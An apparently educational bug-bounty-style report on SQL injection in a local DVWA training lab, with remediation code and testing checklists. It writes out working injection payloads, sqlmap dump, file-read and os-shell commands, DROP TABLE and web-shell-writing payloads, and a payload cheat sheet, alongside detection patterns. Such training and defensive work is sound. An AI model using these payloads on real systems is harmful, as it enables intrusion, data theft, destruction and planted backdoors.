



# Vulnerability Report: SQL Injection

## Executive Summary
A critical SQL injection vulnerability was discovered in the DVWA application that allows an attacker to completely compromise the database, extract sensitive information, and potentially gain system-level access.

## Vulnerability Details

**Severity**: Critical (CVSS 9.8)
**Type**: SQL Injection
**Location**: http://localhost/vulnerabilities/sqli/
**Parameter**: id (GET)
**CWE**: CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
**Date Discovered**: 2026-01-16
**Discovered By**: Lakshan

## Description
The application fails to properly sanitize user input in the 'id' parameter before incorporating it into SQL queries. This allows attackers to inject arbitrary SQL commands, leading to unauthorized database access, data exfiltration, and potential system compromise. The vulnerability exists because the application uses string concatenation to build SQL queries instead of parameterized statements.

## Proof of Concept

### Manual Testing

**Test 1: Authentication Bypass**
```
URL: http://localhost/vulnerabilities/sqli/?id=' OR '1'='1&Submit=Submit
Payload: ' OR '1'='1
Result: All user records displayed instead of one
```

**Explanation:**
The SQL query becomes:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '' OR '1'='1'
```
Since '1'='1' is always true, all records are returned.

**Test 2: Union-Based Injection**
```
Payload: 1' UNION SELECT NULL, NULL--
Result: Column count identified (2 columns)
```

**Test 3: Data Extraction**
```
Payload: 1' UNION SELECT user, password FROM users--
Result: Successfully extracted usernames and password hashes
```

### Automated Testing (SQLMap)

**Command Used:**
```bash
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="PHPSESSID=1ifmqkg9kaq3eea41aui61sv41; security=low" \
  --dbs \
  --batch
```

**Database Enumeration:**
```bash
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="PHPSESSID=1ifmqkg9kaq3eea41aui61sv41; security=low" \
  -D dvwa \
  --tables \
  --batch
```

**Data Extraction:**
```bash
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="PHPSESSID=1ifmqkg9kaq3eea41aui61sv41; security=low" \
  -D dvwa \
  -T users \
  --dump \
  --batch
```

### SQLMap Results

**Databases Found:**
- dvwa
- information_schema

**Tables in 'dvwa' Database:**
- users
- guestbook

**Extracted User Credentials:**

| user_id | user    | password (hash)                    | password (cracked) |
|---------|---------|------------------------------------|--------------------|
| 1       | admin   | 5f4dcc3b5aa765d61d8327deb882cf99   | password           |
| 2       | gordonb | e99a18c428cb38d5f260853678922e03   | abc123             |
| 3       | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b   | charley            |
| 4       | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7   | letmein            |
| 5       | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99   | password           |

**Additional Data:**
- First names, last names
- Avatar paths
- Last login timestamps
- Failed login counts

### Screenshots

*Screenshot showing normal behavior with valid user ID*


*Screenshot showing all users retrieved with ' OR '1'='1 payload*


*SQLMap output showing discovered databases*


*SQLMap output showing tables in dvwa database*


*Complete user table dump with cracked passwords*

## Step-by-Step Reproduction

### Manual Browser Testing:

1. Navigate to http://localhost/vulnerabilities/sqli/
2. Observe the normal behavior by entering a valid user ID (1-5)
3. Enter the following payload in the User ID field:
```
   ' OR '1'='1
```
4. Click "Submit"
5. Observe that all user records are now displayed
6. This confirms the SQL injection vulnerability

### Using Burp Suite:

1. Configure browser proxy to use Burp Suite (127.0.0.1:8080)
2. Navigate to SQL Injection page
3. Intercept the request in Burp Suite
4. Send to Repeater
5. Modify the 'id' parameter with various payloads:
```
   id=1' OR '1'='1
   id=1' UNION SELECT NULL, NULL--
   id=1' UNION SELECT user, password FROM users--
```
6. Observe different SQL injection techniques working

### Using SQLMap:

1. Obtain session cookie (PHPSESSID) from browser
2. Run database enumeration
3. Extract table structure
4. Dump sensitive data
5. SQLMap automatically detects injection types:
   - Boolean-based blind
   - Error-based
   - Time-based blind
   - UNION query

## Injection Points Identified

### Parameter: id (GET)

**Type 1: Boolean-based blind**
- Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
- Payload: `id=1' OR NOT 9452=9452#&Submit=Submit`

**Type 2: Error-based**
- Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
- Payload: `id=1' AND (SELECT 6060 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(6060=6060,1))),0x716a6b7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- nVBP`

**Type 3: Time-based blind**
- Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
- Payload: `id=1' AND (SELECT 1387 FROM (SELECT(SLEEP(5)))KoKx)-- ZGZg`

**Type 4: UNION query**
- Title: MySQL UNION query (NULL) - 2 columns
- Payload: `id=1' UNION ALL SELECT NULL,CONCAT(0x7171706b71,0x5a57435277675754666b427a57666d6a69634478584e63474c564b4d43676b4452494761524b794b,0x716a6b7171)#`

## Vulnerable Code Analysis

**Likely Vulnerable Code** (based on behavior):
```php
<?php
// VULNERABLE CODE - DO NOT USE
$id = $_GET['id'];

// Direct string concatenation - VULNERABLE!
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";

$result = mysql_query($query);
?>
```

**Why This is Vulnerable:**
- User input (`$id`) is directly concatenated into SQL query
- No input validation or sanitization
- No prepared statements or parameterized queries
- Using deprecated `mysql_query()` function
- Single quotes in user input are not escaped
- Allows arbitrary SQL code injection

**The Attack Flow:**
```
User Input: ' OR '1'='1
    ↓
Query Built: SELECT first_name, last_name FROM users WHERE user_id = '' OR '1'='1'
    ↓
Query Executed: Returns ALL users because '1'='1' is always true
    ↓
Attacker Success: Bypassed authentication logic
```

## Impact Assessment

### Severity Justification

**CVSS v3.1 Score: 9.8 (CRITICAL)**

**Vector String**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

**Breakdown:**
- **Attack Vector (AV)**: Network (N) - Can be exploited remotely over the network
- **Attack Complexity (AC)**: Low (L) - No special conditions required
- **Privileges Required (PR)**: None (N) - No authentication needed
- **User Interaction (UI)**: None (N) - Can be exploited without user interaction
- **Scope (S)**: Unchanged (U) - Vulnerability affects only the vulnerable component
- **Confidentiality Impact (C)**: High (H) - Complete information disclosure
- **Integrity Impact (I)**: High (H) - Complete data modification possible
- **Availability Impact (A)**: High (H) - Complete denial of service possible

### Potential Consequences

**1. Data Breach:**
- Complete database access
- User credentials exposed (5 accounts compromised)
- Personal information leaked
- Password hashes extracted and cracked
- Payment information at risk (if stored)

**2. Account Takeover:**
- Password hashes extracted: 5 user accounts
- Weak passwords cracked in seconds (password, abc123, charley, letmein)
- Administrator account compromised (admin/password)
- Lateral movement to other accounts possible

**3. System Compromise:**
- Potential for remote code execution via SQL
- File system access using `LOAD_FILE()` function
- Writing files using `INTO OUTFILE` (if permissions allow)
- Privilege escalation opportunities
- Access to underlying operating system

**4. Business Impact:**
- Regulatory compliance violations:
  - GDPR Article 32 (Security of Processing)
  - PCI DSS Requirement 6.5.1 (Injection Flaws)
  - HIPAA Security Rule (if health data involved)
- Reputational damage
- Financial losses from:
  - Incident response costs
  - Legal fees and fines
  - Customer compensation
  - Lost business
- Loss of customer trust
- Potential lawsuits

**5. Advanced Attack Scenarios:**
- **Database Modification**: 
```sql
  id=1'; UPDATE users SET password='hacked' WHERE user='admin'--
```
- **Data Deletion**:
```sql
  id=1'; DROP TABLE users--
```
- **Reading Files**:
```sql
  id=1' UNION SELECT NULL, LOAD_FILE('/etc/passwd')--
```
- **Writing Backdoors**:
```sql
  id=1' UNION SELECT NULL, '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'--
```

### Attack Scenario Example

**Real-World Attack Flow:**

**Step 1: Initial Discovery**
- Attacker discovers the application
- Tests parameter with simple payload: `'`
- Receives MySQL error message
- Confirms SQL injection exists

**Step 2: Database Enumeration**
- Uses SQLMap to automate exploitation
- Discovers database structure:
  - Database: dvwa
  - Tables: users, guestbook
  - Columns in users table identified

**Step 3: Data Exfiltration**
- Extracts all user data:
  - 5 user accounts dumped
  - Password hashes obtained
  - Profile information collected

**Step 4: Password Cracking**
- Uses hashcat or John the Ripper
- Cracks weak MD5 hashes:
  - admin: password (cracked in <1 second)
  - gordonb: abc123 (cracked in <1 second)
  - pablo: letmein (cracked in <1 second)
- 4 out of 5 passwords cracked

**Step 5: Account Access**
- Logs in as administrator
- Gains full application access
- Downloads entire database
- Plants backdoor for persistence

**Step 6: Lateral Movement**
- Checks if users reused passwords elsewhere
- Tests credentials on company email, VPN
- Gains access to internal systems
- Complete organizational compromise

**Total Time**: 15-30 minutes for skilled attacker

## Remediation

### Immediate Mitigation (Emergency Fix)

**Option 1: Input Validation (Quick Fix)**
```php
<?php
// Emergency mitigation - validate that id is numeric
$id = $_GET['id'];
if (!is_numeric($id)) {
    die("Invalid input");
}
$id = intval($id);

$query = "SELECT first_name, last_name FROM users WHERE user_id = $id";
// Note: Still not ideal, but blocks most SQL injection
?>
```

**Option 2: Disable Page Temporarily**
- Take vulnerable page offline immediately
- Display maintenance message
- Implement proper fix before restoring
- Notify users of scheduled maintenance

### Recommended Long-Term Solution (BEST PRACTICE)

**Use Prepared Statements with PDO:**
```php
<?php
// SECURE IMPLEMENTATION - USE THIS
$id = $_GET['id'];

try {
    // Create PDO connection
    $pdo = new PDO('mysql:host=localhost;dbname=dvwa', 'username', 'password');
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    
    // Use prepared statement with parameter binding
    $stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = :id");
    $stmt->bindParam(':id', $id, PDO::PARAM_INT);
    $stmt->execute();
    
    $results = $stmt->fetchAll(PDO::FETCH_ASSOC);
    
    // Display results
    foreach ($results as $row) {
        echo htmlspecialchars($row['first_name']) . " " . 
             htmlspecialchars($row['last_name']) . "<br>";
    }
    
} catch(PDOException $e) {
    // Log error securely, don't expose to user
    error_log($e->getMessage());
    die("An error occurred. Please contact support.");
}
?>
```

**Key Security Improvements:**
1. **Prepared statements** - SQL and data are separated
2. **Type enforcement** - `PDO::PARAM_INT` ensures integer
3. **Proper error handling** - Doesn't expose database details
4. **Output encoding** - `htmlspecialchars()` prevents XSS
5. **No direct string concatenation** - Injection impossible

**Alternative: MySQLi Prepared Statements:**
```php
<?php
$id = $_GET['id'];

// Create connection
$mysqli = new mysqli("localhost", "username", "password", "dvwa");

// Check connection
if ($mysqli->connect_error) {
    die("Connection failed");
}

// Prepare statement
$stmt = $mysqli->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->bind_param("i", $id);  // "i" means integer
$stmt->execute();

// Get results
$result = $stmt->get_result();
while ($row = $result->fetch_assoc()) {
    echo htmlspecialchars($row['first_name']) . " " . 
         htmlspecialchars($row['last_name']) . "<br>";
}

$stmt->close();
$mysqli->close();
?>
```

### Additional Security Measures

**1. Database Configuration (Least Privilege):**
```sql
-- Create restricted user for web application
CREATE USER 'webapp'@'localhost' IDENTIFIED BY 'strong_password_here';

-- Grant only necessary permissions
GRANT SELECT ON dvwa.users TO 'webapp'@'localhost';
GRANT SELECT, INSERT ON dvwa.guestbook TO 'webapp'@'localhost';

-- Remove dangerous permissions
REVOKE FILE ON *.* FROM 'webapp'@'localhost';
REVOKE SUPER ON *.* FROM 'webapp'@'localhost';

-- Apply changes
FLUSH PRIVILEGES;
```

**Benefits:**
- Web application cannot DROP tables
- Cannot read arbitrary files (LOAD_FILE disabled)
- Cannot write files (INTO OUTFILE disabled)
- Limits damage from successful SQL injection

**2. Input Validation Layer:**
```php
<?php
function validateUserId($id) {
    // Whitelist validation
    if (!ctype_digit($id)) {
        return false;
    }
    
    // Range validation
    $id_int = intval($id);
    if ($id_int < 1 || $id_int > 1000000) {
        return false;
    }
    
    return true;
}

$id = $_GET['id'];
if (!validateUserId($id)) {
    http_response_code(400);
    die("Invalid user ID");
}

// Proceed with prepared statement
?>
```

**3. Web Application Firewall (WAF):**

Deploy ModSecurity with OWASP Core Rule Set:
```apache
# Apache configuration
<IfModule security2_module>
    SecRuleEngine On
    SecRule ARGS "@detectSQLi" \
        "id:1000,phase:2,deny,status:403,msg:'SQL Injection Detected'"
</IfModule>
```

**Benefits:**
- Blocks common SQL injection patterns
- Provides defense-in-depth
- Logs attack attempts
- Can block attacks while code is being fixed

**4. Database Activity Monitoring:**
```php
<?php
// Log all database queries for audit
function logDatabaseQuery($query, $params) {
    $log_entry = [
        'timestamp' => date('Y-m-d H:i:s'),
        'query' => $query,
        'params' => $params,
        'user_ip' => $_SERVER['REMOTE_ADDR'],
        'user_agent' => $_SERVER['HTTP_USER_AGENT']
    ];
    
    error_log(json_encode($log_entry), 3, "/var/log/app/sql-queries.log");
}

// Alert on suspicious patterns
function detectSuspiciousQuery($query) {
    $suspicious_patterns = [
        '/UNION.*SELECT/i',
        '/OR.*1.*=.*1/i',
        '/DROP.*TABLE/i',
        '/LOAD_FILE/i'
    ];
    
    foreach ($suspicious_patterns as $pattern) {
        if (preg_match($pattern, $query)) {
            // Send alert to security team
            mail('security@company.com', 'SQL Injection Attempt', 
                 'Suspicious query detected: ' . $query);
            return true;
        }
    }
    return false;
}
?>
```

**5. Rate Limiting:**
```php
<?php
// Prevent automated SQL injection scanning
session_start();

if (!isset($_SESSION['request_count'])) {
    $_SESSION['request_count'] = 0;
    $_SESSION['request_start'] = time();
}

$_SESSION['request_count']++;

// Allow 10 requests per minute
if ($_SESSION['request_count'] > 10 && 
    (time() - $_SESSION['request_start']) < 60) {
    http_response_code(429);
    die("Too many requests. Please try again later.");
}

// Reset counter after 1 minute
if ((time() - $_SESSION['request_start']) > 60) {
    $_SESSION['request_count'] = 1;
    $_SESSION['request_start'] = time();
}
?>
```

### Implementation Priority and Timeline

**Priority**: CRITICAL - Fix Immediately

**Recommended Timeline:**

**Day 0-1 (Emergency Response):**
- [ ] Disable vulnerable functionality OR implement input validation
- [ ] Review access logs for exploitation attempts
- [ ] Change all database passwords
- [ ] Notify security team
- [ ] Assess if breach occurred

**Day 1-3 (Core Fix):**
- [ ] Implement prepared statements for this query
- [ ] Test thoroughly in development environment
- [ ] Code review by security team
- [ ] Deploy to production

**Day 3-7 (Comprehensive Fix):**
- [ ] Audit ALL database queries in application
- [ ] Convert all queries to prepared statements
- [ ] Implement input validation framework
- [ ] Add database activity logging

**Week 2 (Defense in Depth):**
- [ ] Deploy Web Application Firewall (WAF)
- [ ] Configure database user with least privilege
- [ ] Implement rate limiting
- [ ] Set up intrusion detection

**Week 3 (Verification):**
- [ ] Re-test with SQLMap to confirm fix
- [ ] Penetration testing by external team
- [ ] Security code review of entire application
- [ ] Update security documentation

**Week 4 (Long-term Improvements):**
- [ ] Security training for development team
- [ ] Implement automated security scanning in CI/CD
- [ ] Establish regular penetration testing schedule
- [ ] Create incident response plan

## Verification and Testing

### Testing the Fix

**After implementing prepared statements, verify:**

**1. Positive Testing (Should work):**
```
id=1         → Returns user 1
id=2         → Returns user 2
id=5         → Returns user 5
```

**2. Negative Testing (Should fail safely):**
```
id=' OR '1'='1        → No results or error message
id=1' UNION SELECT... → No results or error message
id=1; DROP TABLE...   → No results or error message
id=<script>alert(1)   → No results or error message
```

**3. Automated Testing (SQLMap should fail):**
```bash
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1" \
  --cookie="session_id" \
  --level=5 \
  --risk=3
  
# Expected result:
# "parameter 'id' does not seem to be injectable"
```

**4. Error Handling Test:**
```
id=abc       → Should return generic error, not database error
id=          → Should handle gracefully
id=999999    → Should return "User not found", not SQL error
```

### Security Testing Checklist

- [ ] SQLMap cannot detect injection
- [ ] Manual payloads are blocked
- [ ] Error messages don't reveal database info
- [ ] Prepared statements used throughout
- [ ] Input validation in place
- [ ] Least privilege database user configured
- [ ] WAF rules active and blocking attacks
- [ ] Logging captures attack attempts

## Output Files and Evidence

**SQLMap Output Location:**
```
C:\Users\lakshan\AppData\Local\sqlmap\output\localhost\
├── dump\dvwa\users.csv (Complete user data)
├── log (Detailed execution log)
├── session.sqlite (Session information)
└── target.txt (Target details)
```

**Project Files:**
```
C:\Users\lakshan\Documents\bug-bounty-project\
├── exploitation\sqli\
│   ├── sqlmap-results\ (Copied SQLMap output)
│   └── sqlmap-findings.txt (Detailed notes)
└── screenshots\sqli\
    ├── sqlmap-databases.png
    ├── sqlmap-tables.png
    ├── sqlmap-users-dump.png
    └── burp-sqli-*.png
```

## References and Resources

### Standards and Guidelines
- **OWASP Top 10 2021**: A03:2021 – Injection
  - https://owasp.org/Top10/A03_2021-Injection/
  
- **OWASP SQL Injection Prevention Cheat Sheet**:
  - https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
  
- **CWE-89**: Improper Neutralization of Special Elements used in an SQL Command
  - https://cwe.mitre.org/data/definitions/89.html
  
- **NIST SP 800-53**: SI-10 Information Input Validation
  - https://nvd.nist.gov/800-53/Rev4/control/SI-10

### Tools Used
- **SQLMap**: https://sqlmap.org/
  - Version: 1.10.1.41
  - Purpose: Automated SQL injection detection and exploitation
  
- **Burp Suite Community**: https://portswigger.net/burp/communitydownload
  - Purpose: Manual testing and request manipulation
  
- **Browser Developer Tools**: Built-in Firefox/Chrome tools
  - Purpose: Request inspection and cookie extraction

### Further Reading
- **SQL Injection Attack and Defense**:
  - https://www.owasp.org/index.php/SQL_Injection
  
- **PDO Prepared Statements Documentation**:
  - https://www.php.net/manual/en/pdo.prepared-statements.php
  
- **Database Security Best Practices**:
  - https://owasp.org/www-community/vulnerabilities/
  
- **MySQL Security Guidelines**:
  - https://dev.mysql.com/doc/refman/8.0/en/security.html

### Compliance References
- **PCI DSS**: Requirement 6.5.1 - Injection Flaws
- **GDPR**: Article 32 - Security of Processing
- **HIPAA**: Security Rule - Access Controls
- **ISO 27001**: Control A.14.2.1 - Secure Development

## Report Metadata

**Report Information:**
- **Report ID**: VULN-002-SQLI
- **Discovered by**: Lakshan
- **Date Discovered**: 2026-01-16
- **Date Reported**: 2026-01-16
- **Report Version**: 1.0
- **Application**: DVWA (Damn Vulnerable Web Application) v1.10
- **Environment**: Local Development/Training
- **Status**: Confirmed - Actively Exploitable
- **Severity**: CRITICAL
- **CVSS Score**: 9.8

**Testing Environment:**
- **Platform**: Docker Container (vulnerables/web-dvwa)
- **DVWA Version**: 1.10 Development
- **Security Level**: Low
- **Operating System**: Windows 11 (Host), Linux Debian 9 (Container)
- **Testing Tools**: SQLMap 1.10.1.41, Burp Suite Community 2023.x
- **Web Server**: Apache 2.4.25 (Debian)
- **Database**: MySQL (MariaDB fork)
- **PHP Version**: 5.x

**Classification**: Educational/Training Exercise
**Distribution**: Instructor/Academic Use Only

---

**APPENDIX A: Additional SQLMap Commands**
```bash
# Enumerate current database
sqlmap -u "URL" --cookie="SESSION" --current-db

# Enumerate all databases
sqlmap -u "URL" --cookie="SESSION" --dbs

# Enumerate tables in specific database
sqlmap -u "URL" --cookie="SESSION" -D dvwa --tables

# Enumerate columns in specific table
sqlmap -u "URL" --cookie="SESSION" -D dvwa -T users --columns

# Dump specific columns
sqlmap -u "URL" --cookie="SESSION" -D dvwa -T users -C user,password --dump

# Get database banner
sqlmap -u "URL" --cookie="SESSION" --banner

# Check for DBA privileges
sqlmap -u "URL" --cookie="SESSION" --is-dba

# Get current user
sqlmap -u "URL" --cookie="SESSION" --current-user

# List database users
sqlmap -u "URL" --cookie="SESSION" --users

# Get password hashes
sqlmap -u "URL" --cookie="SESSION" --passwords

# Read file from system
sqlmap -u "URL" --cookie="SESSION" --file-read="/etc/passwd"

# OS shell (if possible)
sqlmap -u "URL" --cookie="SESSION" --os-shell
```

---

**APPENDIX B: Common SQL Injection Payloads**

**Authentication Bypass:**
```sql
' OR '1'='1
' OR '1'='1' --
' OR '1'='1' #
' OR '1'='1'/*
admin' --
admin' #
admin'/*
' OR 1=1--
```

**Union-Based Injection:**
```sql
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
1' UNION SELECT user(), database()--
1' UNION SELECT table_name, NULL FROM information_schema.tables--
```

**Error-Based Injection:**
```sql
' AND 1=CONVERT(int, (SELECT @@version))--
' AND 1=CAST((SELECT @@version) AS int)--
```

**Time-Based Blind Injection:**
```sql
1' AND SLEEP(5)--
1' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--
```

**Boolean-Based Blind Injection:**
```sql
1' AND '1'='1
1' AND '1'='2
1' AND SUBSTRING(@@version,1,1)='5
```

---

*This vulnerability report was prepared as part of an educational bug bounty simulation project. All testing was conducted in a controlled laboratory environment with explicit authorization. This document is for educational purposes only.*